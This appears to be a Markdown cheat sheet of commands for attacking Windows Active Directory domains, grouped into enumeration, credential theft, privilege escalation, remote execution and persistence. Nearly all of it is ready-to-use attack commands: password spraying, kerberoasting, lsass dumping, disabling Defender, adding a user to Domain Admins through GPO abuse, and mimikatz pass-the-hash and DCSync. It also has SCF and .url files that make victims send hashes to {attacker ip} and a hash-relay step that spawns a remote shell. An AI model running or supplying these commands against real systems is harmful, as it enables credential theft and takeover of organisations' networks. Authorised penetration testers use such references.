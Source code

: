 ## Enumeration
* _attempt DNS zone transfer_
```
nslookup
set type=any
ls -d {domain.local}
```
* [PingCastle](https://pingcastle.com) _Use to find common active directory vulnerabilities and misconfigurations_
* `adcollector.exe` _enumerate interseting info from active directory domain_
* `Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -Properties 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime' | select dnshostname,ms-mcs-admpwd` _Try to fetch LAPS passwords from active directory if permissions aren't properly configured_
* [bloodhound](https://www.pentestpartners.com/security-blog/bloodhound-walkthrough-a-tool-for-many-tradecrafts/) _Use to map a path to domain admin.  [unofficial docker image](https://github.com/belane/docker-bloodhound)_
* _active directory and group policy snapins can be used by any domain user if they are installed_
* `crackmapexec smb {ip range} -u {username} -p {password}` _scan an ip or range with valid creds to see where it's an admin or at least a valid user_
* `crackmapexec smb {ip range} -u {username} -p {password} --shares` _enumerate shares that user has access to_
* `SharpShares.exe shares` _enumerate readable shares that user has access to_
* [PowerHuntShares](https://github.com/NetSPI/PowerHuntShares) _tool to enumerate shares that user has access to_
* `/usr/share/responder/tools/RunFinger.py -i {ip/mask}` _scan for machines with smb signing off so hashes can be passed instead of cracked_
* `crackmapexec smb {ip range} -u {username} -H {hash} --local-auth` _Check an ip range for access using a local admin account and its uncracked hash.  SMB singing must be disabled on the target_

## Getting Creds
* `findstr /S /I cpassword \\{domain}\sysvol\{domain}\policies\*.xml` _check group policy for passwords that can be easily decrypted_
* `reg add HKCU\Console /f /v VirtualTerminalLevel /t reg_dword /d 1` _fix console colors for crackmap exec_
* `crackmapexec smb {ip} -u {users.txt} -p {password}` _spray all user accounts in users.txt with a single popular password_
* `crackmapexec smb {ip} -u {users.txt} -p {password} --local-auth` _password spray for local accounts_
* `rubeus.exe brute /password:{password} /outfile:{file.txt}` _password spray all domain accounts with one password using rubeus_
* `crackmapexec smb {domain controller} -u {username} -p {password}` _check that domain credentials are valid by attempting to login_
* `crackmapexec smb {domain controller} -u {username} -H {hash}` _check that domain credentials are valid by attempting to pass hash_
* `responder -I eth0 -wrf` _Start responder on eth0. Listen for netbios, and wpad_
* `inveigh.exe -nbns y -llmnr y -mdns y` _capture hashes on network with inveigh_
* _Example index.scf file that can force any machine that views a share to send hash to attackers responder_
```
[Shell]
Command=1
IconFile=\\{attacker ip}\whatever.ico
[Taskbar]
Command=ToggleDesktop
```
* _Example .url file that when clicked will send hash to attackers responder_
```
[InternetShortcut]
URL=file://{attacker ip}/@whatever
```
* `smbclient \\\\{ip}\\{share name} -U {domain}/{user}` _connect to smb share with valid creds_
* `put /{path}/index.scf ./index.scf` _upload malicous scf file to root of connected smb share_
* `rubeus.exe kerberoast /simple /outfile:kerberoast.txt`  _[kerberoast](https://room362.com/post/2016/kerberoast-pt1/) stealing crackable tickets from AD using kerberoasting. htb machine [Active](https://0xrick.github.io/hack-the-box/active/) is an example of this_
* _alternative kerberoast method_
```
Import-Module powerview.ps1
Invoke-Kerberoast -OutputFormat {hashcat/john} | Select-Object -ExpandProperty hash
```
* `rubeus.exe asreproast /format:{hashcat/john} /nowrap /outfile:asreproast.txt` _stealing crackable tickets from AD using asreproasting for any accounts that dont require kerberos preauth_
* `rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump “<lsass pid> lsass.dmp full”` _Dump the lsass process to a file so it can be transfered to attacked for mimikatz.  Useful after forcing clear text lsass creds.  See tutorial page_
* [lsassy](https://github.com/Hackndo/lsassy) _Remotely dump secrets from lsass process_

## Privilege Escalation
* `Set-MpPreference -DisableRealtimeMonitoring $true` _disable windows defender realtime monitoring_
* `SharpGPOAbuse.exe --addcomputertask --taskname "{any task name}" --author "{any author name}" --command "cmd.exe" --arguments "/c net group \"Domain Admins\" {uesr to add} /ADD /DOMAIN" --gponame {name of vulnerable GPO}` _If a user has write privs to a GPO use it to run a command on computers that GPO applies to under their security context. Can take 90 minutes for GPO refresh_ 
* _Spawn a cmd process as another user with their hashed password. Then other tools like dsa.msc can be spawned from the cmd shell_
```
mimikatz.exe
privilege::debug
sekurlsa::pth /user:{user} /domain:{AD domain} /ntlm:{hash}
```
* `crackmapexec.exe smb {machine name} -u {user} -p {password} --local-auth -M wdigest -o ACTION=enable` _Remotely enable wdigest flag on machine.  Forces storing passwords in plain text so can dump later. Use local admin creds. Can be done by passing hash as well with -H instead of -p_
* `crackmapexec.exe smb {machine name} -u {user} -p {password} -M wdigest -o ACTION=enable` _Remotely enable wdigest flag on machine.  Forces storing passwords in plain text so can dump later. Use domain creds.  Can be done by passing hash as well with -H instead of -p_
* _Connect to another host with powershell remoting.  useful for dumping hashes etc with local admin_ 
```
winrm set winrm/config/client @{TrustedHosts="remote computer name"}
Enter-PSSession -ComputerName {remote computer name} -Credential {domain or computername\username}
```
* `procdump64.exe --accepteula -ma lsass.exe dump.dmp` _Dump lsass memory with procdump.  Will contain password hashes, or clear text if using wdigest flag_
* `pypykatz.exe lsa minidump dump.dmp` _Extract creds from lsass dump.  Should be done on attacker machine_

## Remote Commands
* `crackmapexec smb {ip range} -u {username} -p {password} -x {cmd}`  _run command on remote machine using valid creds_
* `/usr/share/responder/tools/MultiRelay.py -t {ip} -u ALL` _Responder must be running with smb and http off.  This will listen for admin hashes and try to relay them to the specified ip to spawn a remote shell.  SMB signing must be disabled on the target [some instructions here](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)_

## Persistance
* _Remotely dump all AD creds after obtaining domain admin. Hashes can be cracked or passed_
```
mimikatz
privilege::debug
log hashes.csv
lsadump::dcsync /domain:{AD domain name} /all
```
*  _Powershell to cleanup mimikatz dump for cracking_
```
Import-CSV -Delimiter "`t" -Header @("id","user","hash") -path .\hashes.csv | select user,hash | where-object {$.user -ne $null} | convertto-csv -Delimiter ':' -NoTypeInformation | % { $ -replace '"', ""} | select-string -pattern "$" -notmatch |select-object -skip 1| out-file crackme.csv -Encoding ascii
```